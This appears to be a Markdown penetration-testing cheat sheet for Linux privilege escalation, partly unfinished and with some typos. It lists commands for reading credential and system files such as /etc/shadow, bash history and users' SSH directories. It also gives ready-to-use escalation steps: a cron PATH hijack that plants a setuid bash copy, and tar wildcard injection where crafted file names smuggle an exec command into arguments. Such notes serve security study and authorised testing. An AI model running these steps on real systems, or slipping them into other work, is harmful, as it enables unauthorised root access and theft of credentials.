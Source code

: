 # Linux Privilege Escalation Cheat Sheet
## Initial Enumeration
### System Enumeration
```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
lscpu
```
### Process Enumeration
```bash
ps aux
ps aux | grep root
```
### User Enumeration
```bash
whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1
cat /etc/shadow
cat /etc/group
```
```bash
history
```
### Network Enumeration
```bash
ifconfig
ip a
ip route
arp -a
ip neigh
```
```bash
netstat -ano
```
### Password Hunting
 
## Automated Enumeration

## Kernel Exploit
### Kernel Exploit Enumeration
#### Check System Information

```bash
hostname
```
```bash
uname -a
```
```bash
cat /etc/lsb-release
```
```bash
cat /proc/version
```
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
```bash
lscpu
```
#### Check Running Process Information
```bash
ps aux
```
```bash
ps aux | grep root
```
### Kernel Exploitation Process
  1. Google for Exploits against the OS and Kernel Version 
  2. Download, compile, and run it against the target if it exists
  3. Try something else if it does not exist.

## Escalation via Scheduled Tasks
### Check writeable Files and Directories
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
Pay particulalar attention to the following locations
  * /etc/init.d
  * /etc/cron*
  * /etc/crontab
  * /etc/cron.allow
  * /etc/cron.d 
  * /etc/cron.deny
  * /etc/cron.daily
  * /etc/cron.hourly
  * /etc/cron.monthly
  * /etc/cron.weekly
  * /etc/sudoers
  * /etc/exports
  * /etc/anacrontab
  * /var/spool/cron
  * /var/spool/cron/crontabs/root

### Enumerate Scheduled Tasks By checking the scheduled tasks
```bash
crontab -l
```
```bash
ls -lah /var/spool/cron
```
```bash
ls -lah /etc/cron*
```
```bash
cat /etc/at.allow
```
```bash
cat /etc/at.deny
```
```bash
systemctl list-timers --all
```
### Escalation via Cron Paths
  1. Check the PATH= Variable.
  2. Check what files are being run.
  3. Check if the file exists in the file path from left to right.
      * If it does not exist, check if you can write the file


           i. Create The File With:
           
            echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <path>/<file>
            chmod +x <path><file>
        
           ii. Escalate Privilege
         
            /tmp/bash

      * If the file exists before you find a writeable location, try something else.

### Escalation via Wildcards
If a command accepts wildcards as an argument and it is present in the crontab or cronjob do the following:
1. Research the executable
2. Create files where the name of the file if fed as part of the argument
3. The executable will interpret the name of the file as part of the command
4. Profit

Tar is a good example of this with the payloads
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > root.sh
chmod +x root.sh
```
```bash
--checkpoint=1
--checkpoint-action=exec=sh root,sh
```

## Check OS version
## Check Kernel Version

## List current running processes
Look for processes running as root. A misconfigured or vulnerable running as run can be an easy win.
ps aux | grep root
List current processes
ps au

## List the contents of the Home Directory
 
 ls /home
 
## List the contents of a users home directory
 
 ls -lah /home/<user>

## Check and retrieve the content of the SSH Directory

  These can be used to access other systems within the environment
  ls -lah /home/<user>/.ssh
  
## Check the Bash HIstory
  history
  
## List a users sudo privileges
  sudo -l
  
## Check the content of /etc/passwd
  cat /etc/passwd
  
## Check the Content of /etc/cron*
  ls /etc/cron.*
  cat /etc/cron*/<cronjob>
  
## kust File Systems and Additional Drives
  lsblk
  
## Find Writeable Directories
  find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

## Find writeable files
  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
  
#

